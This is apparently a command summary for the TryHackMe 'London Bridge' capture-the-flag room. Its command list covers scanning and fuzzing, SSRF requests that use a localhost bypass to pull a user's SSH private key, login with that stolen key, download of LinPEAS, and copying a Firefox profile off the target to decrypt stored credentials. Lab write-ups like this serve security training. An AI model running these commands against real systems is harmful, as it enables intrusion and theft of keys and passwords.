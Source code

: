 # TryHackMe-London Bridge

**Scope:**

- HTTP Tampering
- SSRF (Server-Side Request Forgery)
- URL Format Bypass
- UID (User Identifier)
- GID (Group Identifier)

**Keywords:**

- feroxbuster
- HTTP Tampering Methods
- File Transfer Phase
- POST Parameter Fuzzing
- URL Format Bypass
- SSH Connection with ID RSA
- LinPEAS
- Linux Kernel Exploit
- CVE-2018-18955
- Firefox Credentials
- Compress Firefox Files
- Decryption Firefox Credentials
- Web Server Manipulation
- Python Script Analysis

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -oN nmap_result.txt -Pn $target_ip`
- `wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt --hc 403,404,500,501,502,503 -c -t 50 http://londonbridge.thm:8080/FUZZ`
- `nmap -sV -T4 -A -p 8080 --script=http-enum -oN nmap_http_enum_result.txt -Pn $target_ip`
- `ffuf -u 'http://londonbridge.thm:8080/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -mc all -ic -t 50 -fs 232`
- `feroxbuster -u 'http://londonbridge.thm:8080' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -o ferox_dir_result.txt -t 20 -r -s 200,403,405 --random-agent`
- `curl -iLX GET -D getresponse.txt http://londonbridge.thm:8080/view_image`
- `python3 -m http.server 8000`
- `curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'image_url=http://10.2.37.37:8000/injectfile' -D ssrftestresult.txt $'http://londonbridge.thm:8080/view_image'`
- `wfuzz -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H "Content-Type: application/x-www-form-urlencoded" -X POST -d 'FUZZ=http://10.2.37.37:8000/injectfile' -u http://londonbridge.thm:8080/view_image --hc 403,404,500,501,502,503 --hh 823`
- `ffuf -u 'http://londonbridge.thm:8080/view_image' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'FUZZ=http://10.2.37.37:8000/injectfile' -mc all -t 30 -ic -fs 823`
- `curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'www=http://10.2.37.37:8000/injectfile' -D wwwssrftestresult.txt $'http://londonbridge.thm:8080/view_image'`
- `curl -iL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'www=http://127.0.0.1' $'http://londonbridge.thm:8080/view_image'`
- `ffuf -u 'http://londonbridge.thm:8080/view_image' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'www=http://127.1/FUZZ' -mc all -t 30 -ic -fs 469`
- `curl -s -X $'POST' --data-binary $'www=http://127.1/.ssh/id_rsa' $'http://londonbridge.thm:8080/view_image' -o id_rsa`
- `chmod 600 id_rsa`
- `ssh -i id_rsa -o MACs=hmac-sha2-256 beth@londonbridge.thm -p 22`
- `wget https://github.com/peass-ng/PEASS-ng/releases/download/20240818-ea81ae32/linpeas_linux_amd64`
- `scp -o MACs=hmac-sha2-256 -i id_rsa beth@londonbridge.thm:/tmp/firefox.tar.gz .`
- `tar -xvzf firefox.tar.gz`
- `sudo chmod -R 777 firefox`